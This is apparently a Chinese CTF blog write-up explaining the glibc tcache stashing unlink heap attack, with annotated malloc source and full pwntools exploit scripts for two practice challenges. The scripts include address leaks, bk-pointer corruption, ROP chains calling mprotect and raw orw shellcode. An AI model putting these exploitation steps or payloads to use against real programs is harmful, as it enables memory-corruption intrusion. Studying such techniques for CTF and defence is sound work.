








## tcache stashing unlink attack

>介绍：在2.29的libc版本中，进行了unsorted bin的双向链表完整性检查。因此unsorted bin attack也就失效了，不过在libc2.29的版本中tcache stashing unlink attack却可以达到类似的效果(在一个任意地址写入一个libc地址)。
>
>
>
>原理：在2.29的libc中，如果我们需要的chunk位于了small bin里面，当我们将chunk从small bin拿出来的时候，还会去检查当前small bin链上是否还有剩余堆块，如果有的话并且tcache bin的链上还有空余位置(**tcache bin不能为空**)，就会将剩余的那个堆块给链入到tcache bin中。**而将small bin中的堆块链入到tcache bin中的时候没有进行双向链表完整性的检查，此时攻击那个即将链入tcache bin的堆块的bk指针，即可向任意地址写入一个libc地址。**
>
>注意：上述有一个看似矛盾的地方，如果tcache bin不为空并且没有满，才会将small bin里的堆块给链进来，但是tcache bin不为空的话，正常情况下会直接从tcahce bin里取，并非去small bin里找。但是**calloc函数有个特性，它不会从tcache bin里取堆块，因此该攻击必须要利用calloc函数才行**。
>
>
>
>**适用版本：目前适用于所有带tcache的glibc版本(2.26--2.36)**
>
>
>
>使用前提：
>
>1. 能使用calloc分配堆块
>2. 可以控制small bin中的bk指针
>3. small bin中最少要有两个堆块
>
>
>
>攻击效果：在任意地址写一个Libc地址(main_arena+96)
>
>
>
>利用思路：
>
>1. 先进行libc地址以及堆地址的泄露(libc地址不是必须的，而堆地址是必须的，因为我们伪造bk指针的时候，不能破坏fd指针，需要获取堆地址，重新还原fd指针)
>2. 然后将tcache bin中只留6个堆块**\(这样small bin链入tcache bin后，tcache bin就会直接装满，防止程序继续通过我们篡改的bk指针继续往下遍历)**
>3. 再做出至少两个位于small bin中的chunk(可以通过切割unsorted bin的方式，让剩余部分的堆块进入small bin或者当遍历unsorted bin的时候，会给堆块分类，让其小堆块进入small bin中)
>4. 利用溢出或UAF+edit等手段，篡改位于small bin中的倒数第二个堆块的bk指针为我们想要写入main_arena+96的地址 **注意伪造bk的时候一定不能破坏fd指针**
>5. 最后我们申请一个位于small bin那条链对应size中的chunk，**将small bin中的一个chunk申请出来，而small bin链中的另一个堆块则进入tcache bin，在链入tcache bin的期间触发了tcache stashing unlink attack。**


该漏洞处的源码如下:

```c
if (in_smallbin_range (nb))
    {
      idx = smallbin_index (nb);
      bin = bin_at (av, idx);

      if ((victim = last (bin)) != bin)
      //victim就是要脱链的堆块，也就是small bin里的最后一个
      //这个if在判断我们所需要的size的那条small bin链上是否存在堆块，存在的话就把victim给脱链
        {
          bck = victim->bk;
	  if (__glibc_unlikely (bck->fd != victim))//对small bin的双向链表的完整性做了检查，确保victim->bk->fd指向的还是victim
    //如果我们在这里劫持了victim的bk指针，就会导致bck的fd指向的并不是victim，从而触发异常
	    malloc_printerr ("malloc(): smallbin double linked list corrupted");
          set_inuse_bit_at_offset (victim, nb);//设置下一个（高地址）chunk的prev_inuse位
          bin->bk = bck;//将victim脱链
          bck->fd = bin;
          if (av != &main_arena)
	    set_non_main_arena (victim);
          check_malloced_chunk (av, victim, nb);
#if USE_TCACHE
	  /* While we're here, if we see other chunks of the same size,
	     stash them in the tcache.  */
	  size_t tc_idx = csize2tidx (nb);//获取size对应的tcache索引
	  if (tcache && tc_idx < mp_.tcache_bins)//如果这个索引在tcache bin的范围里，也就是这个size属于tcache bin的范围
	    {
	      mchunkptr tc_victim;

	      /* While bin not empty and tcache not full, copy chunks over.  */
	      while (tcache->counts[tc_idx] < mp_.tcache_count//如果tcache bin没有满
		     && (tc_victim = last (bin)) != bin)//如果small bin不为空,tc_victim为small bin中的最后一个堆块
		{
		  if (tc_victim != 0)
		    {
		      bck = tc_victim->bk;//这里取tc_victim的bk指针，并没有针对bck做双向链表完整性检查，因此我们可以去攻击tc_victim的bk指针
		      set_inuse_bit_at_offset (tc_victim, nb);
		      if (av != &main_arena)
			set_non_main_arena (tc_victim);
		      bin->bk = bck;//将tc_victim从small bin中脱链
		      bck->fd = bin;//如果我们伪造bck，这里就可以将bck->fd的位置写入一个bin的地址(main_arena+96)
		      tcache_put (tc_victim, tc_idx);//将tc_victim链入tc_idx这条链
	            }
		}
	    }
#endif
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }
    }
```


## 相关题目

### buu[2020 新春红包题]3

#### 保护策略：





#### 漏洞分析：



存在一个UAF漏洞

存在一个可以溢出的函数(如下)


这里可以直接溢出buf打一个栈迁移，迁移到堆上(提前布置一个rop链)，执行orw来绕过沙箱。


#### 利用思路：

虽然有UAF漏洞并且有edit函数和show函数，但这题没法打tcache poisoning，因为这题申请内存的函数是calloc，这个函数的特性是不从tcache bin中取堆块，因此我们打tcache poisoning也无法从tcache bin链上取出来堆块。而且就算能取出来堆块，也无法绕过沙箱。想绕沙箱就必须去利用那个溢出函数。

溢出函数中存在一个if检查，这里本来用unsorted bin attack的话是很好过检查的，但是在Libc为2.29的版本中对unsorted bin增加了检验双向链表完整性，无法去利用unsorted bin attack 了。不过在2.29有一种手法可以代替unsorted bin attack达到类似的效果，也就是tcache stashing unlink attack(上文对tcache stashing unlink attack做了介绍，这里就不再赘述了)


#### 泄露地址：

因为存在UAF漏洞，配合show函数，可以轻松的泄露堆地址和libc地址。但是为了后续的利用，我们前期需要先伪造两条不同的tcache链(一条用于后续small bin中堆块的链入，一条用于让堆块进入unsorted bin，因为0x410这条链装满了，再释放掉0x410的堆块就会直接进入unsorted bin) 如下图，我们执行两次show函数即可获取libc地址和堆地址。




#### 放入small bin中两个堆块

目前我们在unsorted bin中有一个0x410的堆块，我们先去申请一个0x300的堆块，这样剩下的0x100就会进入unsorted bin中，然后下一次申请0x400的堆块，ptmalloc就会去遍历unsorted bin将原先0x100的堆块放入small bin中。接着如法炮制再申请一个0x400的堆块，释放掉进入unsorted bin，然后申请0x300堆块，将unsorted bin中的堆块进行切割，残留的0x100堆块返回unsorted bin,最后再申请一个不等于0x100的堆块(如果正好相等的话，就直接从unsorted bin里拿出来了，只有不相等才会去遍历，然后给chunk分类)，这时候就又把0x100的堆块放入到了small bin里，而此时small bin中就有两个堆块了。


#### 篡改small bin中的bk指针

因为这道题要触发后门的话，就得让下面这个if成立，我们直接篡改small bin的bk指针为这个qword_4058+2048-0x10的值即可



篡改后small bin的情况如下



最后再申请一个0xf0的堆块即可触发tcache stashing unlink attack。

完事了利用后门，打一个栈迁移，迁移执行流到堆上，执行提前布置好的rop链执行orw即可。我是直接调用了mprotect函数让堆去变成可读可写可执行，然后直接执行orw的shellcode(这里没有难点，就不再具体阐述了)

#### EXP:

[tools-函数库 | ZIKH26's Blog](https://zikh26.github.io/posts/ad411136.html)

```py
from tools import *
#context.log_level='debug'
d_e=0x19A2
d_d=0x1991
d_a=0x196E
d_s=0x19B3
p,e,libc=load("a","node4.buuoj.cn:25200")
# libc=ELF("/home/zikh/Desktop/glibc-all-in-one/libs/2.29-0ubuntu2_amd64/libc-2.29.so")
# p=remote("node4.buuoj.cn",25200)

def add(index,choice,content):
    p.sendlineafter("Your input: ",str(1))
    p.sendlineafter("Please input the red packet idx: ",str(index))
    p.sendlineafter("How much do you want?(1.0x10 2.0xf0 3.0x300 4.0x400): ",str(choice))
    p.sendlineafter("Please input content: ",content)

def edit(index,content):
    p.sendlineafter("Your input: ",str(3))
    p.sendafter("Please input the red packet idx: ",str(index))
    p.sendlineafter("Please input content: ",content)
    
def delete(index):
    p.sendlineafter("Your input: ",str(2))
    p.sendlineafter("Please input the red packet idx: ",str(index))
    
def show(index):
    p.sendlineafter("Your input: ",str(4))
    p.sendlineafter("Please input the red packet idx: ",str(index))
    
for i in range(6):
    add(i,2,'wow')
for i in range(6):
    delete(i)

for i in range(8):
    add(i,4,'a')
add(8,1,'b')#prevent merge with top chunk
for i in range(7):
    delete(i)


show(6)
leak_heap=u64(p.recv(6).ljust(8,b'\x00'))
log_addr('leak_heap')
delete(7)

show(7)
libc_base=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x1e4ca0#recv_libc()-0x1e4ca0
log_addr('libc_base')


add(9,3,'a')
add(10,3,'a')

add(11,4,'s')
pop_rdi=libc_base+0x0000000000026542
pop_rsi=libc_base+0x0000000000026f9e
pop_rdx=libc_base+0x000000000012bda6
rop=p64(pop_rdi)+p64((leak_heap>>12)*0x1000)
rop+=p64(pop_rsi)+p64(0x4000)
rop+=p64(pop_rdx)+p64(7)
rop+=p64(libc.symbols['mprotect']+libc_base)
rop+=p64(leak_heap+0x13b0)

shellcode=b"\x48\xC7\xC0\x03\x00\x00\x00\x48\xC7\xC7\x00\x00\x00\x00\x0F\x05\x68\x66\x6C\x61\x67\x54\x5F\x6A\x00\x5E\x6A\x02\x58\x0F\x05\x6A\x00\x5F\x54\x5E\x6A\x50\x5A\x6A\x00\x58\x0F\x05\x6A\x01\x5F\x54\x5E\x6A\x50\x5A\x6A\x01\x58\x0F\x05"
rop+=shellcode
add(12,4,rop)
delete(11)
debug(p,'pie',d_a,d_e,d_s,d_d,0x143C)
add(0,3,'s')
add(0,3,'s')

target_addr=leak_heap-0x2270
log_addr('target_addr')

edit(11,b'\x00'*0x300+p64(0)+p64(0x101)+p64(leak_heap+0xb20)+p64(target_addr))

add(15,2,'e')


p.sendlineafter("Your input: ",str(666))
payload=b'a'*0x80+p64(leak_heap+0x1370-8)+p64(0x0000000000058373+libc_base)
p.sendafter("What do you want to say?",payload)
p.interactive()
```


### hitcon_ctf_2019_one_punch

#### 保护策略：





#### 大致思路：

这道题考察的是tcache stashing unlink attack，不过由于本题开了沙箱，所以最后需要用orw获取flag。

程序给了个后门(可以调用malloc，篡改malloc_hook劫持执行流)，不过需要用tcache stashing unlink attack来触发这个后门，利用libc里的一个gadget(add rsp,0x48;ret)将其写到malloc_hook里，直接控制程序执行流。

利用那个gadget能控制执行流的原因是因为程序询问size的时候，输入到栈里的数据太大了。(如下)


#### EXP：

```py
from tools import *
context.log_level='debug'

p,e,libc=load("a","node4.buuoj.cn:26802")

def add(index,size,content):
    p.sendlineafter("> ",str(1))
    p.sendlineafter("idx: ",str(index))
    p.sendlineafter("hero name: ",content*size)

def delete(index):
    p.sendlineafter("> ",str(4))
    p.sendlineafter("idx: ",str(index))    

def edit(index,content):
    p.sendlineafter("> ",str(2))
    p.sendlineafter("idx: ",str(index))  
    p.sendlineafter("hero name: ",content)
    
def show(index):
    p.sendlineafter("> ",str(3))
    p.sendlineafter("idx: ",str(index))  

def backdoor(content):
    p.sendlineafter("> ",str(0xC388))
    p.send(content)

def create_chain():
    
    add(2,0x400,'a')
    delete(2)
    for i in range(6):
        add(0,0x400,'a')
        delete(0)
        
    add(1,0x400,'b')

    for i in range(6):
        add(0,0x100,'l')
        delete(0)
    delete(1)

def leak_addr():
    show(1)
    libc_base=recv_libc()-0x1e4ca0
    log_addr('libc_base')

    show(0)
    p.recvuntil('hero name: ')
    leak_heap=u64(p.recv(6).ljust(8,b'\x00'))
    log_addr('leak_heap')
    
    return libc_base,leak_heap

def get_into_smallbin():
    add(0,0x1,shellcode_store('orw_64').ljust(0x2f0,b'\x00'))
    
    add(0,0x300,'d')#first get into small bin
    add(1,0x400,'e')
    add(0,0x300,'f')#prevent merged chunk
    delete(1)
    add(0,0x2f0,'s')
    
    add(0,0x300,'g')#second get into small bin
    
def tcache_stashing_unlink_attack(leak_heap,libc_base):
    malloc_hook=libc_base+libc.symbols['__malloc_hook']
    add_rsp_ret=0x000000000008cfd6+libc_base
    add(0,0x210,'h')
    delete(0)
    add(2,0x210,'i')
    delete(2)
    payload=b'o'*0x2f0+p64(0)+p64(0x111)+p64(leak_heap-0x560)+p64(leak_heap-0x26f0-0x10-5)
    edit(1,payload)
    
    add(0,0x100,'a')
    
    edit(2,p64(malloc_hook))
    backdoor(shellcode_store('orw_64'))
    backdoor(p64(add_rsp_ret))
    pop_rdi=libc_base+0x0000000000026542
    pop_rsi=libc_base+0x0000000000026f9e
    pop_rdx=libc_base+0x000000000012bda6
    open_addr=libc_base+0x000000000010cc80
    read_addr=libc_base+0x000000000010cf70
    write_addr=libc_base+0x000000000010d010
    flag_addr=libc_base+0x0000000000016239
    syscall_addr=libc_base+0x0000000000026bd4
    pop_rax=libc_base+0x0000000000047cf8
    mprotect_addr=libc_base+0x0000000000117590
    
    rop=p64(pop_rdi)+p64((leak_heap>>12)*0x1000)
    rop+=p64(pop_rsi)+p64(0x4000)
    rop+=p64(pop_rdx)+p64(7)
    rop+=p64(mprotect_addr)
    rop+=p64(leak_heap+0x1180)
    rop+=p64(0xdeadbeef)*20
    debug(p,'pie',0x16DE,0x16ea,0x16f6,0x1702,0x15C3)
    add(0,1,rop)
    
create_chain()
libc_base,leak_heap=leak_addr()
get_into_smallbin()
tcache_stashing_unlink_attack(leak_heap,libc_base)
p.interactive()
```



## 参考文章：

[Tcache Stashing Unlink Attack利用思路-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/198173?display=mobile#h2-0)

https://blog.csdn.net/weixin_46521144/article/details/119536209

